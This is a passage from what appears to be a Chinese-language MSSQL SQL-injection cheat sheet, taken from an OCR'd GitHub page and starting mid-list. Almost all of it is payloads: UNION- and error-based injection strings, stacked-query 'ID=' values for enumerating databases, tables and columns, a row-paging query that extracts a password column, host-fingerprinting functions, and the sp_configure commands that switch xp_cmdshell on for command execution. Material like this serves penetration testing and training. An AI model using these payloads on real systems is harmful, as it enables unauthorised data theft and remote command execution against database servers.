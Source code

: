         - `SELECT pass FROM (SELECT pass, ROW_NUMBER() OVER (ORDER BY (SELECT 1)) AS LIMIT FROM mydb.dbo.mytable)x WHERE LIMIT between 78 and 87`
- 其它：
    - db_name()
    - user_name()
    - @@servername
    - host_name()
- 爆DB name
    - ```DB_NAME(N)```
    - ```UNION SELECT NULL,DB_NAME(N),NULL--```
    - ```UNION SELECT NULL,name,NULL FROM master ..sysdatabases--```
    - `SELECT catalog_name FROM information_schema.schemata`
    - ```1=(select name from master.dbo.sysdatabases where dbid=5)```
- 爆表名
    - `SELECT table_catalog, table_name FROM information_schema.tables`
    - `SELECT name FROM sysobjects WHERE xtype='U'`
    - `ID=02';if (select top 1 name from DBname..sysobjects where xtype='U' and name not in ('table1', 'table2'))>0 select 1--`

- 爆column
    - `SELECT table_catalog, table_name, column_name FROM information_schema.columns`
    - `SELECT name FROM syscolumns WHERE id=object_id('news')`
    - `ID=1337';if (select top 1 col_name(object_id('table_name'), i) from sysobjects)>0 select 1--`
- Union Based
    - Column型态必须相同
    - 可用`NULL`来避免
- Error Based
    - 利用型别转换错误
    - `id=1 and user=0`

- 判断是否站库分离
    - 客户端主机名：`select host_name();`
    - 服务端主机名：`select @@servername; `
    - 两者不同即站库分离

- xp_cmdshell
    - 在MSSQL 2000默认开启
    - MSSQL 2005之后默认关闭
    - 有sa权限，可透过sp_configure重启它
    
    ```
    EXEC sp_configure 'show advanced options',1
    RECONFIGURE 
    EXEC sp_configure 'xp_cmdshell',1
    RECONFIGURE
    ```
    - 关闭xp_cmdshell
    
    ```
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    EXEC sp_configure'xp_cmdshell', 0;
    RECONFIGURE;
    ```
